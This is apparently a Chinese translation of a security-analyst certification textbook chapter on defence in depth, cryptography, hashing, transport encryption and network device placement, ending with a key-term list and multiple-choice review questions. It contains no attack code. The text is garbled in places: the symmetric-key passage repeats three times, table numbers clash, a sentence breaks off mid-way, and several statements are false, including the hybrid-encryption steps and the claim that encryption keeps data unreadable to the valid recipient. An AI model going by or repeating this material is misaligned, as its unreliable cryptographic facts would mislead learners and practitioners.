交叉培训（也称为岗位轮换）确保组织内有一个及以上的人员完成单一职位的工作任务。这种岗位轮换确保有一个及以上的人能够执行这些任务，从而避免了冗余。它也是帮助组织识别何时发生过欺诈活动的重要工具。

从安全的角度来看，岗位轮换是指培训多个用户执行某一职位的职责，以帮助防止任何个人员工的欺诈。其理念是，通过让许多人熟悉职位的合法功能，发现异常活动的概率会更高。结合强制休假（即要求所有用户都休假，让其他人在缺席期间填补其职位），可以增强发现异常活动的机会。

## 接班计划

可能发生的最具破坏性的事件之一是组织失去一名对运营至关重要的员工。当这种情况发生时，应被视为人力资源冗余性的失败。组织应将关键岗位的接班计划视为深度防御的关键组成部分。

适当的接班计划不仅要识别关键员工的潜在候选人，还应制定特定的计划来培训这些人，使他们准备好接管职位并在工作中表现良好。通常，这涉及外部和内部培训模式。它还包括与当前职位持有者共同工作，以便所有组织知识得到传递。

## 流程

深度防御在很大程度上取决于组织的流程。

缺陷和不安全的流程及程序使得环境无法变得安全，无论技术安全解决方案多么复杂。正如后续章节所述，组织在这一方面应将精力集中在以下几个关键领域。

## 持续改进

网络安全分析师不能只是坐下来、放松并享受。安全需求总是在变化，因为“坏人”从不休息。因此，安全专业人员不断工作改进其组织的安全至关重要。与之相关的是，需要提高目前实施的安全控制的质量。

质量改进通常使用四步法质量模型，即明轮循环或计划-执行-检查-处理（`PDCA`）循环，它包含四个步骤：


`第 1 步计划`：识别一个改进领域并制定实施的正式计划。

`第 2 步执行`：在小范围内实施计划。

`第 3 步检查`：分析实施结果以确定其是否产生了变化。

`第 4 步处理`：如果实施产生了积极变化，则在更大范围内实施。持续分析结果。

其他类似的指南还包括六西格玛、精益和全面质量管理。无论组织使用哪一种，结果都应是全公司范围内的持续改进循环。

## 定期审查/流程退役

开发的许多流程和程序是为了缓解漏洞。在这方面，它们代表了另一种形式的安全控制。应使用安全控制评估来验证组织或业务部门的安全目标是否正在实现。漏洞评估和渗透测试被认为是此过程的一部分。如果实施的安全控制未实现安全目标，则该安全控制是无效的。一旦完成评估，安全专业人员应使用评估结果来确定哪些安全控制存在弱点或缺陷。安全专业人员随后应消除这些弱点或缺陷。


审查控制的有效性应包含询问以下问题：

- 我们正在使用哪些安全控制？
- 如何改进这些控制？
- 这些控制必要吗？
- 是否出现了新问题？
- 可以部署哪些安全控制来解决新问题？

## 技术

技术解决方案是大多数人在考虑安全时思考的内容，技术解决方案无疑构成了深度防御策略的主干。以下章节涵盖了可以增强深度防御策略成功的关键技术。

## 自动化报告

许多漏洞扫描工具具有强大的自动化报告功能，组织应该利用这些功能。这些报告可以生成后将按计划交付给组织内的个人。提供多种类型的报告，并针对其目标受众量身定制。这些报告类型包括：

- `技术报告`：此报告对发现的所有漏洞提供全面分析，并为网络管理员、安全官和 `IT` 提供评估网络安全的工具。
- `变更报告`：此报告仅展示与之前任何扫描相比的更改，突出潜在风险、未经授权的活动以及与安全相关的网络操作。
- `执行报告`：此报告为 `IT` 高管设计，提供适中的图表和足足够的支持性细节，以辅助决策。
- `高层执行报告`：此报告提供更多的图表和更少的细节，用于向非技术决策者进行演示。

## 安全设备

安全设备是深度防御策略中的关键组件之一。这些硬件设备旨在提供某些支持网络安全或检测漏洞和攻击的功能。虽然这些设备在第 14 章中进行了详细介绍，但在此列出如下：

- 入侵防御系统
- 入侵检测系统
- 防火墙
- `SIEM` 系统
- 硬件加密设备

另一种值得提及的安全设备类型是执行统一威胁管理 (`UTM`) 的设备。`UTM` 是一种在同一台设备或电器上执行多种安全功能的方法。这些功能可能包括：

- 网络防火墙
- 网络入侵防御
- 网关反病毒
- 网关反垃圾邮件
- `VPN`
- 内容内容过滤
- 负载均衡
- 数据泄露防护
- 设备上报告

`UTM` 使得管理多个系统变得不再必要。然而，有些人认为 `UTM` 创建了单点故障；他们更倾向于创建多层设备作为一种更安全的方法。

## 安全套件

安全套件是组合成单一工具的安全实用程序集。例如，它可能是反病毒和防火墙服务的组合。许多安全套件还包括备份服务、家长控制和有助于提高性能的维护功能。它们可能还包括：

- 网关保护
- 邮件服务器保护
- 文件服务器保护
- 客户端保护
- 集中管理

虽然将所有工具整合在一起很方便，但您需要确保包含的工具足够强大，并能提供您的组织所需的特定功能。

## 外包

第三方外包是许多组织未将其纳入风险评估的责任。任何外包协议必须确保受托给其他组织的信息受到适当安全措施的保护，以满足所有法规和法律要求。

下游责任是指组织由于与其他组织和客户建立伙伴关系而产生的责任。例如，您需要考虑合同第三方是否建立了适当的程序，以确保组织的防火墙拥有其所需的安全更新。如果黑客通过安全漏洞进入网络并窃取数据进行身份盗用，客户可以因疏忽起诉该组织（而不一定是第三方）。这就是下游责任的例子。在考虑第三方外包、合同和采购时，组织必须考虑这些责任问题。

尽职调查（`Due diligence`）和尽职尽责（`Due care`）是处理责任的两个相关术语。尽职调查意味着组织了解其面临的安全风险，并已采取了合理措施来应对这些风险。尽职尽责意味着组织采取了其可以合理采取的所有行动来防止安全问题，或在发生安全违露时减轻损害。尽职尽责和尽职调查相辅相成，但在共同考虑它们之前，必须分别理解它们。

尽职调查的核心在于收集信息。组织必须建立适当的程序来确定组织资产的任何风险。尽职调查提供了确保组织履行尽职尽责的信息。没有充分的尽职调查，就无法实现尽职尽责。

尽职尽责的核心在于行动。组织必须为所有组织资产（特别是知识产权）建立适当的保护和程序。在尽职尽责的情况下，未能达到最低标准和规范被视为疏忽。如果组织没有采取谨慎的人在类似情况下会采取的行动，则该组织就是疏忽的。

如你所见，尽职调查和尽职尽责之间存在依赖关系。当进行尽职调查时，组织会识别风险区域。例如，组织确定人员不理解基本安全问题、打印文档未被妥善处理，以及员工正在访问他们不应访问的文件。当发生尽职尽责时，组织会实施计划来防止已识别的风险。对于上述的尽职调查示例，尽职尽责将包括提供人员意识培训、建立妥善销毁打印文档的程序以及对所有文件实施适当的访问控制。

确保第三方提供的安全水平与涉及的数据相匹配至关重要。有多种方法可以实现这一点：

- 在合同条款中详细列出对第三方预期的准确安全措施。
- 定期审核和测试所提供的安全性以确保合规性。
- 考虑签署信息安全协议 (`ISA`)，这在某些领域实际上可能是强制要求的（例如，医疗保健）。

与第三方外包协议一样，合同和采购流程必须正式化。组织应建立管理所有合同和采购的程序，以确保包含所有法规和法律要求。应进行定期审查，以确保合同组织遵守合同指南。

当供应商将功能再次外包给第三方时，外包也可能给公司带来问题。在这种情况下，如果供应商无法提供与第三方的协议以确保任何数据获得所需的保护，则拥有数据的公司应尽终止与供应商的联系。

当功能分摊在多个供应商之间时，外包引起的问题可能会恶化。提供者之间的职责分离可能会对战略架构产生不利影响。供应商管理成本可能会增加，组织应对新市场状况的灵活性将降低。对 `IT` 系统的内部了解将减少，并影响未来的平台开发。由于责任跨越多个边界，实施安全控制和安全更新需要更长时间。

最后，当外包跨越边界时，会出现额外的复杂性。某些国家的法律比其他国家更宽松。根据数据的来源和存储地，可能需要考虑多个国家或监管机构的法律。如果一个国家的法律过于宽松，组织可能希望重新考虑与该国家的公司做生意。

总结来说，虽然引入第三方可以帮助满足上市需求，但第三方应在合同上有义务执行适当的安全活动，并在发布由于第三方合作而产生的任何产品或服务之前，公司应确认这些活动的证据。协议还应包括公司随时审核第三方的权利。

## 服务即安全

在某些情况下，组织可能会发现自己需要某些组织内部尚未具备技能的安全服务。安全服务 (`SaaS`) 是一个涵盖了许多比组织内部更多的人才和经验第三方提供的安全服务的术语。

这种协助的范围可以从顾问的偶尔帮助到使用托管安全服务提供商 (`MSSP`) 不等。`MSSP` 提供了所有信息安全完全外包给第三方的选项。如果组织决定部署第三方身份服务（包括云计算解决方案），安全从业人员必须参与该实现方案与内部服务及资源的集成。这种集成可能是非常复杂的，特别是当提供者与内部系统不完全兼容时。大多数第三方身份服务提供云身份、目录同步和联邦身份。这些服务的示例包括亚马逊云服务 (`AWS`) 身份和访问管理 (`IAM`) 服务和 Oracle 身份管理。

# 加密

在讨论深度防御的技术组件时，如果不包含密码学将是不完整的。使用加密保护信息涉及部署一个加密系统，该系统由软件、协议、算法和密钥组成。任何加密系统的强度都源于算法以及密钥的长度和保密性。例如，使加密密钥更能抵抗穷举攻击的一种方法是增加密钥长度。如果加密系统使用弱密钥，将有助于针对算法的攻击。

虽然加密系统支持机密性、完整性和可用性 (`CIA`) 三元体的三个核心部分，但加密系统直接提供身份验证、机密性、完整性、授权和不可否赖性。`CIA` 三元体的可用性由加密系统支持，这意味着实现加密有助于确保组织的数据保持可用。然而，加密并不直接确保数据的可用性，尽管它可以被用于保护数据。加密系统提供的安全服务包括以下：


- `身份验证`：加密系统通过能够确定发送者的身份和有效性提供身份验证。数字签名验证发送者的身份。保护密钥可确保只有有效用户才能正确地加密和解密消息。
- `机密性`：加密系统通过更改原始数据来提供机密性，确保数据无法被有效接收者读取。没有正确的密钥，未经授权的用户无法读取消息。
- `完整性`：加密系统通过允许有效接收者验证数据未被篡改来提供完整性。哈希函数不能防止数据篡改，但提供了一种判断是否发生了数据篡改的方法。
- `授权`：加密系统通过在用户通过身份验证证明其身份后向该用户提供密钥来提供授权。密钥允许用户访问资源。
- `不可否赖性`：加密系统中的不可否赖性提供了数据来源证明，从而防止发送者否认其发送过消息，并支持数据完整性。公钥加密和数字签名提供了不可否赖性。
- `密钥管理`：加密学中的密钥管理对于确保加密提供机密性、完整性和身份验证至关重要。如果密钥泄露，可能会对整个组织产生严重后果。

密钥管理涉及确保密钥在创建、分发、传输和存储期间受到保护的整个过程。作为这一过程的一部分，密钥还必须被妥善销毁。当你考虑到传输密钥的庞量网络以及存储密钥的各种类型系统时，这个问题的巨大性就显而无遗了。

作为加密学中要求最高且最关键的方面，安全专业人员理解密钥管理原则非常重要。密钥在存储于非加密设备上时应始终以密文形式存储。密钥的分发、存储和维护应该通过将流程集成到应用程序中来实现自动化的。

由于密钥可能会丢失，应该制作备份副本并将其存储在安全位置。指定人员应控制备份副本，并应指定其他人作为应急备份。密钥恢复过程应要求多一个操作员，以确保只有有效的密钥恢复请求被完成。在某些情况下，密钥甚至被分成部分并存放在受信代理处，这些代理人在获得授权后向中央机构提供他们部分的密钥。虽然使用了其他分发密钥部分的方法，但所有解决方案都涉及受托部分密钥的受托代理以及负责从各个部分组装密钥的中央机构。此外，密钥恢复人员应跨整个组织，而不仅仅是 `IT` 部门的成员。

组织应该限制使用的密钥数量。密钥越多，你需要担心的密钥就越多，必须确保其保护也越多。虽然发行密钥的有效理由不应被忽略，但限制发行和使用的密钥数量可以减少潜在损害。


在设计密钥管理过程时，你应该考虑如何做到以下点：

- 安全地存储和传输密钥。
- 使用随机密钥。
- 发行长度足够的密钥以确保保护。
- 在不再需要时妥善销毁密钥。
- 备份密钥以确保它们可以被恢复。

## 加密类型

计算机系统中使用的算法在将明文转换为密文时会执行复杂的数学公式。任何加密系统的两个主要组件是密钥和算法。在某些加密系统中，两个通信双方使用相同的密钥。在其他加密系统中，两个通信双方使用不同的密钥，但这些密钥是相关的。

在本节中，我们将讨论对称和非对称算法。

对称算法使用私钥或秘密密钥，该密钥必须在双方之间保持保密。每对双方都需要一个独立的私钥。因此，单个用户对于她与其通信的每个用户都需要一个唯一的密钥。

考虑 10 个唯一用户的示例。每个用户都需要一个独立的私钥来与其他通信。为了计算此示例所需的密钥数量，使用以下公式：

用户数量 × (用户数量 - 1) / 2

因此，此示例中需要 `10 × (10 - 1) / 2 = 45` 个密钥。

对称算法使用必须在双方之间保持保密的私钥或秘密密钥。每对双方都需要一个独立的私钥。因此，单个用户对于她与其通信的每个用户都需要一个唯一的密钥。

考虑 10 个唯一用户的示例。每个用户都需要一个独立的私钥来与其他通信。为了计算此示例所需的密钥数量，使用以下公式：

用户数量 × (用户数量 - 1) / 2

因此，此示例中需要 `10 × (10 - 1) / 2 = 45` 个密钥。

对称算法使用必须在双方之间保持保密的私钥或秘密密钥。每对双方都需要一个独立的私钥。因此，单个用户对于她与其通信的每个用户都需要一个唯一的密钥。

对称算法可以称为单密钥、秘密密钥、私钥或共享密钥加密。对称系统提供机密性，但不提供身份验证或不可否赖性。如果双方使用相同的密钥，则无法确定消息来源。对称算法包括 `DES`、`AES`、`IDEA`、`Skipjack`、`Blowfish`、`Twofish`、`RC4`/`RC5`/`RC6` 以及 `CAST`。表 12-5 列出了对称算法的优缺点。


## 表 12-5. 对称算法的优点与缺点

| 优点 | 缺点 |
| --- | --- |
| 对称算法比非对称算法快 1000 到 10000 倍。 | 唯一密钥的数量会导致密钥管理问题。 |
| 它们很难破解。 | 安全密钥分发至关重要。 |
| 对称算法的实现成本比非对称便宜。 | 如果一方被破解，密钥就会破解，从而允许伪造。 |

对称算法的广泛类型是流加密和块加密。初始化向量 (`IV`) 是块加密的重要部分。

流加密按位执行加密并使用密钥流生成器。密钥流生成器产生一个与明文进行异或的位流。该异或操作的结果就是密文。

同步流加密依赖于密钥，而异步流加密依赖于密钥和明文。密钥确保用于异或到明文的位流是随机的。


流加密的优点包括：

- 由于加密是按位进行的，因此它们通常具有较低的错误传播。
- 它们在硬件实现中通常使用更多。
- 加密和解密使用相同的密钥。
- 它们的实现成本通常比块密码更低。

块密码通过将消息分解为固定长度单元来执行加密。一个 1024 位的消息可以被分为 16 个每个 64 位的块。这 16 个块中的每一个都由算法公式处理，最终生成单个密文块。

块密码的示例包括 `IDEA`、`Blowfish`、`RC5` 和 `RC6`。

块密码的优点包括：

- 块密码的实现比基于流的加密实现更容易。
- 它们通常不易受到安全问题的影响。
- 它们更多地用于软件实现。

表 12-5 列出了每种对称算法的关键事实。

表 12-6. 对称算法关键事实

| 算法名称 | 块密码还是流密码？ | 密钥大小 | 轮数 | 块大小 |
|---|---|---|---|---|
| `DES` | 块密码 | 64 位特（有效长度为 56 位） | 16 | 64 位的 |
| `3DES` | 块密码 | 56, 112 或 168 位 | 48 | 64 位的 |
| `AES` | 块密码 | 128, 192 或 256 位 | 10, 12 或 14（取决于块/密钥大小） | 128, 192 或 256 位 |
| `IDEA` | 块密码 | 128 位 | 8 | 64 位的 |
| `Skipjack` | 块密码 | 80 位 | 32 | 64 位的 |
| `Blowfish` | 块密码 | 32 到 448 位 | 16 | 64 位的 |
| `Twofish` | 块密码 | 128, 192 或 256 位 | 16 | 128 位的 |
| `RC4` | 流密码 | 40 到 2,048 位 | 最多 256 | N/A |
| `RC5` | 块密码 | 最多 2,048 | 最多 255 | 32, 64 或 128 位 |
| `RC6` | 块密码 | 最多 2,048 | 最多 255 | 32, 64 或 128 位 |

之前提到的模式使用初始化向量（`IVs`）来确保加密过程中不会产生模式。`IV` 通过在算法中使用随机值来提供这种服务。如果不使用 `IV`，明文消息中重复的短语可能会导致相同的密文。攻击者可能利用这些模式来破解加密。

非对称算法同时使用公钥和私钥（或密钥）。公钥所有方为人知，而私钥仅所有者已知。其中一个密钥用于加密消息，另一个用于解密消息。

在非对称加密中，即使公钥已知，要确定用户的私钥几乎是不可能的，尽管这两个密钥在数学上是相互关联的。然而，如果用户的私钥被发现，系统可能会受到破坏。

非对称算法可以称为双密钥加密或公钥加密。

非对称系统提供了机密性、完整性、认证和不可否认性。由于两个用户都拥有一个作为部分的唯一密钥，因此可以确定消息的来源。

如果机密性是组织的首要考虑因素，应用接收者的公钥加密消息，这被称为安全消息格式。如果认证是组织的首要考虑因素，应用发送者的私钥加密消息，这被称为开放消息格式。使用开放消息格式时，任何拥有公钥的人都可以解密消息。

非对称算法包括 `Diffie-Hellman`、`RSA`、`ElGamal`、`ECC`、`Knapsack`、`DSA` 和零知识证明。

表 12-7 列出了非对称算法的优缺点。

## 表 12-7. 非对称算法的优缺点

| 优点 | 缺点 |
| --- | --- |
| 对称算法的密钥分发更容易更于管理。 | 非对称算法的实现成本比对称算法高。 |
| 密钥管理更容易，因为所有方都使用相同的公钥。 | 非对称算法比对称算法慢 1000 到 10,000 倍。 |

由于对称和非对称算法都有缺点，已经开发出在混合加密中使用这两种算法的解决方案。通过使用两种类型的算法，该加密提供了机密性、认证和不可否认性。

混合加密的过程如下：

`步骤 1`。 对称算法提供机密性。
`步骤 2`。 非对称算法提供认证。
`步骤 3`。 对称算法提供不可否认性。
`步骤 4`。 非对称算法提供完整性。
`步骤 5`。 对称算法提供密钥交换。

完整性由哈希函数和消息认证码提供。哈希函数用于确保完整性。接下来的章节将讨论一些最流行的哈希函数。其中一些不再被使用，因为有了更安全的替代方案。

安全人员应该熟悉以下哈希函数：

- 单向哈希
- `MD2`/`MD4`/`MD5`/`MD6`
- `SHA`/`SHA-2`/`SHA3`

## 哈希函数

哈希函数接收长度可变的消息并产生固定长度的哈希值。哈希值也称为消息摘要，使用原始消息计算的。如果接收者计算出的哈希值相同，则原始消息是完整的。如果接收者计算出的哈希值不同，则原始消息已被更改。

使用给定函数 `H`，必须满足以下等式以确保原始消息 `M1` 没有被更改或被新消息 `M2` 替换：

`H(M1) ≠ H(M2)`

为了使单向哈希有效，在数学上必须无法创建具有相同哈希值的不同消息。给定一个哈希值，从获取该哈希值的来源发现原始消息在数学上是不可能的。如果一个单向哈希算法提供了防止从不同消息创建相同哈希值的保护，则它就是抗碰撞的。

与对称和非对称算法不同，哈希算法是公开的。哈希函数总是单向执行的。反向哈希函数是没有必要的。

然而，单向哈希函数确实有局限性。如果攻击者拦截了包含哈希值的消息，攻击者可以更改原始消息以创建一个带有新哈希值的第二个无效消息。如果攻击者随后将第二个无效消息发送给目标接收者，目标接收者没有办法知道自己收到了一条错误的消息。当接收者执行哈希值计算时，该无效消息看起来是有效的，因为无效消息附加的是攻击者的新哈希值，而不是原始消息的哈希值。为了防止这种情况发生，发送者应该使用消息认证码（`MAC`）。

使用对称密钥算法加密哈希函数会生成密钥化的 `MAC`。对称密钥并不加密原始消息。它仅用于保护哈希值。

图 12-5 显示了哈希函数的基本步骤。

## 图 12-5. 哈希函数流程



`MD2` 消息摘要算法产生 128 位的哈希值。它执行 18 轮计算。尽管 `MD2` 现在仍在使用，但它的速度比 `MD4`、`MD5` 和 `MD6` 慢得多。

`MD4` 算法也产生 128 位的哈希值。然而，它只执行三轮计算。虽然 `MD4` 比 `MD2` 快，但由于针对它的攻击已经成功，其使用率已大幅下降。

与其他 `MD` 算法一样，`MD5` 产生 128 位的哈希值。它执行四轮计算。它初初是为了解决 `MD4` 的问题而创建的，并且比 `MD4` 更复杂。然而，`MD5` 并不是抗碰撞的。因此，它不应用于 `SSL` 证书或数字签名。美国政府要求使用 `SHA-2` 代替 `MD5`。尽管在商业用途中，许多软件供应商在发布软件补丁时会发布 `MD5` 哈希值，以便客户在下载后验证软件的完整性。

`MD6` 算法产生可变哈希值，执行可变次数的计算。尽管它最初作为 `SHA-3` 的候选引入，但由于该算法早期在差分攻击方面存在问题而被撤回。`MD6` 此后重新发布并修复了该问题。然而，该版本的发布得太晚，未能被接受为 `NIST SHA-3` 标准。

安全哈希算法（`SHA`）是由美国 `NIST` 发布的一系列四种算法。`SHA-0` 最初简称为 `SHA`（因为当时没有其他 `SHA` 成员），它在 512 位数据块上执行 80 轮计算后产生 160 位的哈希值。由于发现了碰撞问题，`SHA-0` 从未流行过。

与 `SHA-0` 类似，`SHA-1` 在 512 位数据块上执行 80 轮计算后产生 160 位的哈希值。`SHA-1` 修复了 `SHA-0` 中使其易受到攻击的缺陷。

`SHA-3` 是最新版本，实际上是一个哈希函数族，每个函数都有不同的功能限制。`SHA-3` 族如下：

- `SHA-3-224`：在 1152 位数据块上执行 24 轮计算后产生 224 位的哈希值。
- `SHA-3-256`：在 1088 位数据块上执行 24 轮计算后产生 256 位的哈希值。
- `SHA-3-384`：在 832 位数据块上执行 24 轮计算后产生 384 位的哈希值。
- `SHA-3-512`：在 576 位数据块上执行 24 轮计算后产生 512 位的哈希值。

请记住，`SHA-1` 和 `SHA-2` 仍在广泛使用。`SHA-3` 的开发并不是因为前两个标准存在某些安全缺陷，而是作为其他函数的替代方案提出的。

保护静态数据和传输中数据利用了对称算法和非对称算法各自的优缺点。应用两种算法通常如表 12-8 所示。


## 表 12-8. 加密应用

| 数据类型 | 加密类型 | 示例 | 应用 |
| --- | --- | --- | --- |
| 静态数据 | 对称密钥 | `DES`—已弃用，`AES`—修订版，`3DES` `Blowfish` | 在硬盘、优存盘等上存储数据——任何密钥可以轻松共享的应用 |
| 传输中数据 | 非对称密钥 | `RSA` `Diffie-Hellman` `ECC` `ElGamal` `DSA` | `SSL` 密钥交换哈希 |

## 传输加密

传输加密确保数据在网络或互联网上传输时受到保护。传输加密防止网络嗅探攻击。

安全专业人员应确保其企业在保护静态数据的同时，使用传输加密进行保护。例如，考虑一家为所有用户实施令牌和生物识别认证、受保护管理员账户、事务日志、全盘加密、服务器虚拟化、端口安全、带有 `ACL` 的防火墙、网络入侵防御系统 (`NIPS`) 以及安全访问点的企业。这些解决方案均未为传输中的数据提供任何保护。在这种环境中，必须通过加密来保护数据。为了提供这种加密，应该使用安全通信机制，包括 `SSL`/`TLS`、`HTTP`/`HTTPS`、`SET`、`SSH` 和 `IPsec`：

- `SSL`/`TLS`：安全套层 (`SSL`) 是一种传输层协议，提供加密、服务器和客户端认证以及消息完整性。`SSL` 由 `Netscape` 开发用于在互联网上传输隐私文档。虽然 `SSL` 实现了 40 位（`SSL 2.0`）或 128 位加密（`SSL 3.0`），但 40 位版本由于密钥限制而易受到攻击。`SSL` 允许应用程序跨网络进行加密且经过认证的通信。
- 传输层安全 (`TLS`)是一个开放社区标准，提供与 `SSL` 许多相同的服务。`TLS 1.0` 基于 `SSL 3.0` 但具有更好的扩展性。其主要目标是提供安全和隐私。
- `HTTP`/`HTTPS`：超文本传输协议 (`HTTP`) 是 Web 数据通信的基础。`HTTPS` 是 `HTTP` 的安全版本，使用 `SSL`/`TLS` 加密正在传输的数据。
- `SSH`：安全外壳 (`SSH`) 是一种网络协议，用于在不网络上提供安全登录和其他服务。
- `IPsec`：互联网协议安全 (`IPsec`) 是一套协议，通过对通信会话中的每个数据包进行身份验证和加密来保护 `IP` 通信。

本章讨论的最后一个深度防御概念对深度防御策略的最终成功影响可能最大。它是

这涉及网络设计以及利用网络分段来实现安全目标的方法。由于网络设计影响到网络的基础安全，并且在某些情况下决定了你可以使用的哪些控制措施，因此在实践深度防御时，它值得你投入大量的精力。

## 网络设计

为了正确配置通信和网络安全，安全专业人员必须理解安全网络设计原则。这确保了网络的设置恰当，并且在未来最少需要重新配置。安全设备的放置取决于其提供的功能以及它本应该保护的系统。接下来的章节将讨论目前为止介绍的一些设备的放置位置。

## NIDS

网络入侵检测系统（`NIDS`）的放置位置取决于组织的需求。为了仅识别来自互联网的恶意流量，你应该将其放置在防火墙之外。另一方面，将 `NIDS` 放置在防火墙内部可以让系统识别内部攻击以及穿过防火墙的攻击。在可以部署多个传感器的情况下，你可以在两个位置都放置 `NIDS` 设备。在预算允许的情况下，你应该在靠近网络中敏感系统放置额外的传感器。当只能放置单个传感器时，无论是在防火墙内还是外，所有流量都应该通过它（见图 12-6）。


图 12-6. NIDS 的放置

## NIPS

虽然 `NIDS` 可以向你报警恶意活动，但它无法阻止这些活动。网络入侵预防系统（`NIPS`）可以采取行动阻止恶意活动。你应该将 `NIPS` 放置在网络边界，并以线路方式连接在外部网络和内部网络之间，如图 12-7 所示。

图 12-7. NIPS 的放置

## SIEM

你应该将 `SIEM` 设备放置在中心位置，所有的报告系统都能访问它。此外，考虑到它包含的安全信息，你应该将其放在网络的安全区域。然而，比放置位置更重要的是对系统进行调优，使其不会收集大量无用的信息。

## 下一代防火墙

下一代防火墙（`NGFWs`）是一类设备，旨在解决传统状态检测防火墙在流量检查和应用感知方面的缺陷，同时不会损害性能。虽然 `UTM` 设备也试图解决这些问题，但它们倾向于使用独立的内部引擎来执行各个安全功能。这意味着一个数据包可能会被不同的引擎检查多次，以确定它是否被允许进入网络。

`NGFW` 具有应用感知能力，这意味着它们区分特定的应用程序，而不是允许所有通过典型 Web 端口的流量。此外，它们只在深度包检查阶段对数据包进行检查（检测恶意软件和异常是必须的）。以下是 `NGFW` 提供的一些功能：

- 非中断式直连配置（对网络性能影响很小）
- 标准的第一代防火墙功能，例如网络地址翻译（`NAT`）、状态协议检查（`SPI`）和虚拟专用网络
- 集成的基于签名的 `IPS` 引擎
- 应用感知、全栈可见性和细粒度控制
- 整合来自防火墙外信息的能力，例如基于目录的策略、黑名单和白名单
- 升级路径，包括未来的信息馈、安全威胁以及识别不良应用程序的 `SSL` 解密

`NGFW` 可以以直连（in-line）或离线（out-of-path）方式部署。离线意味着网关将流量重定向到 `NGFW`，而直连放置会导致所有流量流经该设备。这两种放置方式如图 12-8 所示。


图 12-8. NGFWs 的放置

`NGFW` 的优缺点如表 12-9 所示。

## 表 12-9. NGFWs 的优缺点

| 优点 | 缺点 |
| --- | --- |
| 它们提供了增强的安全。 | 管理 `NGFWs` 比管理标准防火墙复杂。 |
| 它们提供了安全服务之间的集成。 | 它们会导致对单一供应商的依赖。 |
| 它们可以节省设备成本。 | 性能可能会受到影响。 |

## 网络分段

正如你在第三章“建议和实施适当的响应和对措施”中学到的，`VLAN` 用于在第二层和第三层隔离连接到同一交换机上的设备。这是网络分段概念的应用。这意味着基础（或主） `VLAN` 的要求是 `VLAN` 中的所有设备也位于相同的 `IP` 子网中。在某些情况下，需要在设备之间创建隔离。当同一 `VLAN` 中的设备必须隔离时，你应该使用 `PVLAN`。你可以使用三种类型创建 `PVLAN`：

- 杂杂模式（`Promiscuous`）：此类类型的端口可以与 `PVLAN` 中的所有其他端口通信。
- 社区模式（`Community`）：此类类型的端口可以与同一社区中的其他端口以及杂杂端口通信。
- 隔离模式（`Isolated`）：此类类型的端口只能与杂杂端口通信。

主 `VLAN` 用于承载 `PVLAN` 的所有流量。次 `VLAN` 是主 `VLAN` 的子网，用于将端口映射到 `PVLAN`。次 `VLAN` 是社区模式或隔离模式。

## 考试准备任务

正如引言中“考试准备策略”部分提到的，你有几种准备考试的方案：此处的练习题、第 15 章“最终准备”以及 Pearson IT 认证测试中的模拟考试。

## 复习所有关键主题

复习本章中最重要的主题，这些主题在页外边缘上用“关键主题”（Key Topics）图标标记。表 12-10 列出了这些主题及其所在的页码。

| 关键主题元素 | 描述 | 页码 |
| --- | --- | --- |
| 表 12-2 | Check Point 防火墙字段 | |
| 列表 | Syslog 消息含义 | | |
| 步骤 | 戴明的 PDCA 循环 | | |
| 列表 | 控制措施的有效性 | | |
| 列表 | 自动化报告 | | |
| 列表 | 加密服务 | | |
| 列表 | 密钥管理 | | |
| 表 12-4 | 对称算法的优缺点 | | |
| 列表 | 流密码的优点 | | |
| 列表 | 密码的优点 | | |
| 表 12-5 | 对称算法密钥事实 | | |
| 表 12-6 | 非对称算法的优缺点 | | |
| 步骤 | 混合加密流程 | | |
| 图 12-5 | 哈希函数过程 | | |
| 表 12-7 | 加密的应用 | | |
| 图 12-6 | NIDS 的放置 | | |
| 图 12-7 | NIPS 的放置 | | |
| 图 12-8 | NGFWs 的放置 | | |
| 表 12-8 | NGFWs 的优缺点 | | |
| 图 12-9 | PVLANs | | |
| 表 12-10 | 第 12 章的关键主题 | | |

趋势分析
- 历史分析
- 手工审查
- 防火墙日志
- `Syslog`
- 认证日志
- 深度防御
- 双重控制
- 职责分离
- 分拆知识
- 强制休假
- 岗位轮岗
- 继任计划
- 持续改进
- 技术报告
- 变更报告
- 执行报告
- 高级执行报告
- 统一威胁管理 (`UTM`)
- 安全套件
- 安全服务 (`SaaS`)
- 密码学
- 对称算法
- 初始化向量
- 流式加密
- 块加密
- 非对称算法
- 混合加密算法
- 哈希函数
- 传输加密
- 安全套接层 (`SSL`)
- `SSH`
- `IPsec`
- 网络入侵检测系统 (`NIDS`)
- 网络入侵防御系统 (`NIPS`)
- 安全信息和事件管理 (`SIEM`)
- 下代防火墙
- 私有 `VLAN`
- 杂散端口
- 隔离端口
- 社区端口

## 复习题

- 1. 你是一家大型银行的网络安全分析师。在每个分行，两名银行员工各知道保险箱密码的一部分。这是哪种概念的示例？
- a. 双重控制
- b. 分拆知识
- c. 最小权限
- d. 知情需要

- 2. 你已经完成了一次漏洞评估，需要生成一份报告，对所有发现的漏洞进行全面分析，并作为网络管理员、安全专员和 IT 经理评估网络安全的工具。你应该生成以下哪种类型的报告？
- a. 技术报告
- b. 高级执行报告
- c. 执行报告
- d. 变更报告
